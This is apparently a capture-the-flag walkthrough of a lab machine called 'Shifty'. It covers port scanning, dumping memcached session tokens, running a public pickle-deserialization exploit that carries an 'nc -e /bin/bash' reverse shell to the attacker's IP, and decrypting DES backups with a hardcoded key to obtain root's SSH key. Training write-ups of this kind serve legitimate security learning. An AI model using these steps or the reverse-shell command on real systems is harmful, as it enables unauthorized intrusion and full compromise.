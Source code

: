 # Shifty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.59 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:57 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
5000/tcp  open   upnp
11211/tcp open   memcache
```

Memcache was open, of all things. I did a detailed `nmap` scan as well:

```
$ sudo nmap -p 80,5000,11211 -sC -sV --min-rate 4000 192.168.202.59           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:58 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      nginx 1.10.3
|_http-generator: Gatsby 2.22.15
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open  http      Werkzeug httpd 1.0.1 (Python 3.5.3)
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open  memcached Memcached 1.4.33 (uptime 150 seconds)
```

Interesting.&#x20;

### Web + Memcache Enum

Port 80 looked rather static:

<figure><img src="../../../.gitbook/assets/image (4) (2) (5).png" alt=""><figcaption></figcaption></figure>

There was no public exploit for this software either, so let's move on. Port 5000 looked way more promising:

<figure><img src="../../../.gitbook/assets/image (15) (3).png" alt=""><figcaption></figcaption></figure>

We can login, and there's no additional functionality with this website. Viewing the requests, we can see that the login just assigned us a token:

<figure><img src="../../../.gitbook/assets/image (6) (16).png" alt=""><figcaption></figcaption></figure>

Moving to Memcache, we can dump it using `memcdump`. We instantly get loads of tokens:

```
$ memcdump --servers=192.168.202.59
<TRUNCATED>
session:8245fa94-7b27-4d99-a1c3-18a9f9db8e54
session:e90dd194-0be7-41f5-9362-a96431bea058
session:d5b40159-2bc4-4b57-91ae-2839ff3b040e
session:5cd631b0-49ba-4059-aae8-5dbae44f7c43
```

The last one was the same as above. I tried replacing the cookie within the request:

```http
GET /admin HTTP/1.1
Host: 192.168.202.59:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.202.59:5000/login
Connection: close
Cookie: session=hellothere
Upgrade-Insecure-Requests: 1

```

Interestingly, this cookie is stored in Memcached, indicating there's no cookie sanitisation there. Perhaps this could be poisoned?

<figure><img src="../../../.gitbook/assets/image (10) (8).png" alt=""><figcaption></figcaption></figure>

### Pickling RCE

I googled 'memcache cookie poisoning exploit' and looked at all the results. This repo was one of them:

{% embed url="https://github.com/CarlosG13/CVE-2021-33026" %}

It looked exactly like what I needed. So I tested it after resetting the VPN and the machine.&#x20;

```
$ python3 cve-2021-33026_PoC.py --rhost '192.168.202.59' --rport '5000' --cmd 'nc -e /bin/bash 192.168.45.179 80' --cookie 'session:session=5cd631b0-49ba-4059-aae8-5dbae44f7c43'
 ____ ___ ____ _  ___     _____         
|  _ \_ _/ ___| |/ / |   | ____|        
| |_) | | |   | ' /| |   |  _|    _____ 
|  __/| | |___| . \| |___| |___  |_____|
|_|  |___\____|_|\_\_____|_____|        
                                        
 __  __ _____ __  __  ____    _    ____ _   _ _____ ____   
|  \/  | ____|  \/  |/ ___|  / \  / ___| | | | ____|  _ \  
| |\/| |  _| | |\/| | |     / _ \| |   | |_| |  _| | | | | 
| |  | | |___| |  | | |___ / ___ \ |___|  _  | |___| |_| | 
|_|  |_|_____|_|  |_|\____/_/   \_\____|_| |_|_____|____/  
                                                           
  ____   ___ ___ ____   ___  _   _ ___ _   _  ____  
 |  _ \ / _ \_ _/ ___| / _ \| \ | |_ _| \ | |/ ___| 
 | |_) | | | | |\___ \| | | |  \| || ||  \| | |  _  
 |  __/| |_| | | ___) | |_| | |\  || || |\  | |_| | 
 |_|    \___/___|____/ \___/|_| \_|___|_| \_|\____|
```

We would get a shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (12) (14).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Encrypted Files --> Root SSH

There was a `backup.py` file within `/opt/backups`:

```python
import sys
import os
import hashlib
from des import des, CBC, PAD_PKCS5

def backup(name, file):
    dest_dir = os.path.dirname(os.path.realpath(__file__)) + '/data'
    dest_name = hashlib.sha224(name.encode('utf-8')).hexdigest()
    with open('{}/{}'.format(dest_dir, dest_name), 'wb') as dest:
        data = file.read()
        k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
        cipertext = k.encrypt(data)
        dest.write(cipertext)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print('Usage: {} <file>'.format(sys.argv[0]))
    
    FILENAME = sys.argv[1]
    FILENAME = os.path.abspath(FILENAME)
    print('Backing up "{}"'.format(FILENAME))
    f = None
    try:
        f = open(FILENAME, 'rb')
        backup(FILENAME, f)
    except Exception as e:
        print('Could not open {}'.format(FILENAME))
        print(e)
    finally:
        if f:
            f.close()
```

In the `data` directory, there's also loads of encrypted files:

```
jerry@shifty:/opt/backups/data$ ls
0317ce62a75684cf0fcf8452a7fe5e5e919d1b730644bf16a304a919
11e3e83c5ea13aaed3b3ceb5edd72b9431ebc6ec2c447d412a0b7c7c
1a171f6f6491d3e4ca9cc0ca15a6c508c8815f6e29004bb29c0724d5
1cb607653518c3b1f08b1341322ead36dd8f93c3d2bfa23916fe28bd
1fd8c1281b186594d3d49f38cded4ce40faf862e9d409eb2a3a201cf
25a74de564e2aa81fbb8682f3fef798deda63f4cca65fd58901caecb
31328fa57f5c504df041f7f4f45498c766c0d12c33f78f33cff66bca
3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc
403c9401a0224bd4f483dedb33ed0bf37fbd93881783ea0e600a49ff
5b1c7de10787e87d4d868457b7bf828154f1d02f653f2b57bce17abc
65895ecf8b82b9fa742e8fabde0fd7e60f1258a9e7ba3c1e9367a3e0
7297aeb420d0530ccb52dcb7f905ecc8deffefc32d02691561a9172e
7824132f0f0cc6da1dce3763d50c38c2941d07f9648e34c6c9b9ccf8
8cd58cbefd50ef93f1a3b173456f9b6a09a7318ada378c3a49a980f2
9038291aaa6b222363fc78837b934d1e2f96bb7cfe11fd3d73149e72
92e8127d493e205bfbd8a9c0dd165da2154768cebafa1c752d9bf0dc
dd533e5634f95c6d86a4f37f01453f5326c80e58b8a01f0a4222c011
dfe0444a971a789bb405c54c270ae25460f5699319aad697c7fd35ee
f166b490169e7de5795a09305837198579daad4694e233d49b126d91
```

I made a copy of all these files within my home directory, and began decrypting it using `openssl`. From the python script and based on the documentation for `des`, the key would be `87629ae8` and the IV is all null bytes.&#x20;

Since the key is interpreted as a bytes type object, we need to convert it to hex, which would give `3837363239616538`.&#x20;

Then, we can decrypt the files:

{% code overflow="wrap" %}
```
jerry@shifty:~/backup$ openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in 3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc -out decrypt
```
{% endcode %}

Then, we can bulk decrypt all of these files using a `bash` for loop:

{% code overflow="wrap" %}
```bash
for FILE in *; do openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in $FILE -out decrypt$FILE; rm $FILE; done
```
{% endcode %}

Then, we can read all of the files. Within the decrypted files, there was a SSH private key:

<figure><img src="../../../.gitbook/assets/image (21) (8).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (17) (5) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
